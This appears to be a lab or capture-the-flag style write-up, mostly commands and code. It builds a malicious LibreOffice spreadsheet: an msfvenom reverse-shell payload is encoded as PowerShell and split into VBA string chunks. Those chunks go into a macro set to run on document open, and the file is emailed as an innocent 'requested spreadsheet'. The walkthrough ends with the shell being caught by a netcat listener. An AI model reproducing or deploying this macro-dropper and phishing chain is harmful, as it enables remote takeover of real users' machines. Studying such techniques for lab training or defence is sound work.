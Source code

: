 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
  - FileTypesandData
---
```



# Exploit Opening

First, let’s create a HTA file that will contain our payload.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6618 bytes
Saved as: evil.hta
```

Inside this file, we can find the following command.

```
powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBT....QAcwApADsA
```

VBA has a 255-character limit for literal strings, but this restriction does not apply to strings stored in variables.

Our goal is to transform this giant string in smaller chunks, like this.

```
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
...
Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
```

We can accomplish this using a simple script, such as this.

```
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```
kali@kali:~$ python3 transform.py
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
...
Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
```

We can now create our LibreOffice macro.

Create a new `.ods` file in LibreOffice Calc, then create a macro in that file.
The macro will look like this.

```
Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub
```

We then need to make this macro run automatically when the document is opened.

We can accomplish this by going to the Tools -> Customize menu, then going to the Events tab.
There, assign the macro to the Open Document event.

Sending the Email

While there are many options for this, we will use a simple command line tool.

```
kali@kali:~$ sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.120.132:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a bomb.ods
```
In this command, we send an email to `mailadmin@localhost` containing our `bomb.ods` attachment.

After sending that email, all that remains is to wait (it can take up to five minutes).

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.132] 49795
Microsoft Windows [Version 10.0.18363.1139]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
hepet\ela arwel
```

